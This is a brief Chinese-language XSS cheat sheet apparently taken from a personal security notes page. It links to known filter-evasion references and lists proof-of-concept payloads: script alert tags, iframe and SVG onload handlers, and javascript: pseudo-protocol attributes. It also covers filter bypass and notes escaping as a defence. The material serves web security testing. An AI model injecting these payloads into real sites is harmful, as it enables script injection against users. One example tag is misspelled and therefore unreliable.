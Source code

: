 ```yaml
---
title: "XSS"
date: 2016-01-20 21:38
---
```


## xss cheat sheet

xss cheat sheet 即测试xss的测试样表

[XSS_Filter_Evasion_Cheat_Sheet][2]

[XSS Filter Evasion Cheat Sheet 中文版][3]

[HTML5 Security Cheatsheet][1]


```
<script>alert(1);</script>
<script>alert('xss');</script>
<iframe onload="alert(1)"></iframe>
```

## xss payload 收集

### svg

```
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>
```


## xss 过滤绕过

* <>

```
<scirpt>alert(1);</script>
```

对 <> 或 < script > 进行过滤或转义，可以防御此类xss

* HTML标签属性执行XSS

很多HTML标签属性支持 javascipt:[code] 伪协议的形式。这个协议类型声明了URL的主体是任意的JavaScript代码，由javascript的解释器运行

```
<table background="javascript:alert(/xss/)"></table>
<img src="javascript:alert('xss');">
```

> 并不是所有的浏览器都支持javascript伪协议

并不是所有的标记的属性都可以产生XSS，通常只有引用文件的属性才能触发XSS。

```
href=
lowsrc=
bgsound=
background=
value=
action=
dynsrc=
```


[1]: http://html5sec.org/
[2]: https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
[3]: http://drops.wooyun.org/tips/1955
[4]: https://www.free-decompiler.com/flash/download/
[5]: http://www.wooyun.org/bugs/wooyun-2010-016512
[6]: http://www.wooyun.org/bugs/wooyun-2010-016532
[7]: http://www.wooyun.org/bugs/wooyun-2010-016598
[8]: http://www.wooyun.org/bugs/wooyun-2010-016803